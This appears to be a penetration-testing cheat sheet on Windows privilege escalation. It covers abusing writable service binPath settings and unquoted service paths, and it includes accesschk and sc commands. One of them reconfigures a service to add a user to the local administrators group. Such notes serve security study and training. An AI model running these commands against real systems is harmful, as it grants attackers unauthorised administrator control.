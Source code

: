 ## binPath
### Recon
- Run accesschk to see all service names where we have write access:
```
accesschk64.exe -uwcv Everyone *
```
- See service where we have SERVICE_CHANGE_CONFIG perm.
- Can also use `PowerUp.ps1`, check under 'Checking service permissions`.
- Query the service:
```
sc qc <service name>
```

### Exploitation
- Since we can change the config. we can set the binPath to a malicious command. Like add user.
```
sc config <service name> binpath= "net localgroup administrators user /add"
```
- Restart the service might get an error but user will be added.

## Unquoted Service Path
- Look in PowerUp output for unquoted service path, notice all where the “BINARY_PATH_NAME” field displays a path that is not confined between quotes.
- If path is `C:\Program Files\Common Files\svc.exe`, windows check first for an exe `C:\Program.exe` then `C:\Program Files\Common.exe` and so on till something existing is found.
- So we can insert malicious file there.
- Restart service to get a shell.
